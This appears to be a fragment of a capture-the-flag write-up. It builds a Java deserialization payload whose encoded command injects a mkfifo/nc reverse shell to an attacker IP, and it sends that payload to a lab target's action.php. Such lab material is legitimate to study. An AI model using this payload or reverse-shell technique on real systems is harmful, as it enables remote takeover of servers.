     public void action() throws IOException, ClassNotFoundException {
        String s = null;
        String[] cmd = {
            "/bin/sh",
            "-c",
            "echo \'" + this.command + "\'"
        };
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader stdInput = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String result = "";
        while ((s = stdInput.readLine()) != null) {
            result += s + "\n";
        }
        this.output = result;
    }
}

class Serialize {

    /**
     * Read the object from Base64 string.
     */
    public static Object fromString(String s) throws IOException,
            ClassNotFoundException {
        byte[] data = Base64.getDecoder().decode(s);
        ObjectInputStream ois = new ObjectInputStream(
                new ByteArrayInputStream(data));
        Object o = ois.readObject();
        ois.close();
        return o;
    }

    /**
     * Write the object to a Base64 string.
     */
    public static String toString(Serializable o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }
}


root@ip-10-201-61-44:~/Cave# nano RPG.java
root@ip-10-201-61-44:~/Cave# javac RPG.java
root@ip-10-201-61-44:~/Cave# java RPG
123 : rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdABgdHJ5aW5nXCI7cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMjAxLjYxLjQ0IDkwMDEgPi90bXAvZjtlY2hvIFwidAADMTIzdAAA


action.php?&lt;xml&gt;rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdABgdHJ5aW5nXCI7cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMjAxLjYxLjQ0IDkwMDEgPi90bXAvZjtlY2hvIFwidAADMTIzdAAA;/xml&gt;
